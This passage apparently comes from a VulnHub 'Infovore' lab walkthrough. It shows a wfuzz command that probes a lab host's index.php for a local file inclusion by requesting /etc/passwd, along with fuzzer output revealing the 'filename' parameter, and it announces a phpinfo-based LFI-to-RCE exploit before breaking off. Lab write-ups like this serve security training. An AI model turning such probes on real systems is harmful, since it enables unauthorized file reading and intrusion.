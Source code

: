 **File Uploads** allows us to upload a file to the server, but first we need a LFI and then convert it to a RCE. To find the LFI we have to do the following:

```
wfuzz -c --hl=136 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u "http://192.168.1.22/index.php?FUZZ=/etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.22/index.php?FUZZ=/etc/passwd
Total requests: 1273833

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000028911:   200        26 L     33 W       1006 Ch     "filename"  
```

![](/assets/images/2024-08-15-vulnhub-infovore/passwd-list.png)

At this point we find a **LFI**, then we use the following exploit to automate this process:

Link: [phpinfolfi.py](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo)

But this exploit needs some changes:

